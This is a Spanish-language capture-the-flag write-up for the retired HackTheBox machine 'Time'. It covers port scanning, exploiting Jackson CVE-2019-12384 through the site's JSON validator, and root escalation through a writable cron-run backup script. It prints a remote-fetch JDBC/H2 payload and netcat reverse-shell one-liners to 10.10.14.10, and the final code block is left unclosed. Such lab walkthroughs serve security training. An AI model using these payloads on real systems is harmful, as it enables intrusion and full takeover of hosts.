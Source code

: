  # Máquina "Time" de HackTheBox

**Características:**
- Linux
- Dificultad: Media 
- Explotación de Jackson CVE-2019-12384
- SSRF to RCE abusando de Cron Job [Privilege Escalation]

**Útil para certificaciones:** eWPT, OSWE, OSCP

La máquina "Time" fue retirada de HackTheBox.

**IP:** 10.10.10.214

## Escaneo de puertos

Comando utilizado:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.214
```

![Escaneo de puertos](/secciones/posts/imagenes/time/time.png "Escaneo de puertos"){width=500}

Al realizar un escaneo de puertos completo con Nmap, se observan dos puertos abiertos:
- Puerto SSH (22)
- Puerto Web (80)

Se detecta OpenSSH en el puerto 22 y un servidor web Apache2 en el puerto 80.

## Enumeración web

Al acceder a la página web, nos encontramos con un beautifier y validador de JSON en línea.

![Interfaz web](/secciones/posts/imagenes/time/time1.png "Interfaz web"){width=500}

La opción "Beautify" mejora el código JSON, pero no ofrece mucha superficie de ataque. Al revisar la opción "Validate" (en versión Beta), al ingresar código JSON se muestra un error que revela la biblioteca utilizada: `com.fasterxml.jackson.databind`.

![Error de validación](/secciones/posts/imagenes/time/time2.png "Error de validación"){width=500}

Investigando en Google, descubrimos que esta funcionalidad es vulnerable (CVE-2019-12384):
https://github.com/jas502n/CVE-2019-12384

## Explotación de la vulnerabilidad

Decidimos utilizar el exploit para obtener una shell reversa. Creamos el siguiente payload:

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f')
```

**Nota:** Debe reemplazar la dirección IP en la función `SHELLEXEC()`.

Pasos para la explotación:
1. Lanzar Python HTTP Server: `sudo python3 -m http.server 80`
2. Iniciar Netcat en el puerto 9001: `nc -nvlp 9001`
3. Ingresar el siguiente código en el campo de entrada del sitio web (opción Validate):

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10:80/inyectar.sql'"}]
```

![Explotación](/secciones/posts/imagenes/time/time3.png "Explotación"){width=500}

También puede usarse en forma sin formato para obtener la shell inversa.

## Conexión establecida

Una vez obtenido el acceso, verificamos los privilegios:

```bash
whoami && id
```

![Shell obtenida](/secciones/posts/imagenes/time/time4.png "Shell obtenida"){width=500}
![Verificación de usuario](/secciones/posts/imagenes/time/time5.png "Verificación de usuario"){width=500}

Configuración de la consola:
```bash
script /dev/null -c bash
# Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
uname -a
```

Buscamos la flag de usuario:
```bash
cat /home/pericles/user.txt
```

![Flag de usuario](/secciones/posts/imagenes/time/time6.png "Flag de usuario"){width=500}

## Escalada de privilegios

Ejecutamos `linpeas.sh` (script de enumeración post-explotación) que nos revela vectores potenciales. Linpeas encontró un script `timer_backup.sh` en `/usr/bin/` modificable por usuarios normales, creado por root y que mueve copias de seguridad a su carpeta.

![Linpeas output](/secciones/posts/imagenes/time/time8.png "Linpeas output"){width=500}

Al analizar el script, confirmamos que comprime y mueve archivos a la carpeta root. Verificamos los permisos:

```bash
ls -la /usr/bin/timer_backup.sh
```

![Permisos del script](/secciones/posts/imagenes/time/time11.png "Permisos del script"){width=500}

Al intentar ejecutarlo obtenemos "Permission denied", lo que indica que solo puede ser ejecutado por root. Esto significa que todo su contenido se ejecuta con privilegios root, por lo que si insertamos un payload de shell inverso, se ejecutará con esos privilegios. Esta explotación entra en la categoría de "Exploitation of Unwanted File Permission".

### Obteniendo shell root

**Atacante:**
```bash
nc -nvlp 4321
```

**Víctima:**
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4321 >/tmp/f' >> /usr/bin/timer_backup.sh
 

**Nota:** Algunos writeups pueden tener contenido de otras páginas o pocas imágenes debido a que en algunas máquinas no tomé apuntes completos. He recopilado información de varios writeups para crear esta guía. Si encuentras errores ortográficos o técnicos, puedes contactarme por correo.
 